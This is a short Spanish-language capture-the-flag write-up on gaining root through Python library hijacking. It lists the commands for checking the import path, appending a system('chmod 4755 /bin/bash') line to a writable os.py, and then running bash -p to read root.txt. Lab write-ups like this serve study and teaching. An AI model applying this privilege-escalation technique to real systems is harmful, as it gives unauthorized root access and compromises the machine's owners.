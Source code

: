 Vemos que el script no hace nada en concreto. Solo importa la libreria os y almacena dos variables y le hace un print.

1. Miramos el orden de busqueda del import de python

    ```bash
    python
    > import sys
    print sys.path
    ```

    Aqui vemos que busca primeramente en el directorio actual de trabajo y despues en `/usr/lib/python2.7/sys.py`

1. Miramos nuestros derechos en la carpeta `/usr/lib/python2.7`

    ```bash
    locate os.py
    ls -l /usr/lib/ | grep "python2.7"
    ```

    Vemos que tenemos todo los derechos en esta carpeta

1. Alteramos el fichero os.py

    ```bash
    cd /usr/lib/python2.7
    nano os.py
    ```

    Al final de este fichero, añadimos el comando siguiente

    ```python
    system("chmod 4755 /bin/bash")
    ```

1. Monitorizamos la /bin/bash

    ```bash
    watch -n 1 ls -l /bin/bash
    ```

Vemos que aparece un `s` en la /bin/bash

```bash
bash -p
whoami
#Output
root
cd /root
cat root.txt
```

Ya podemos leer el root.txt
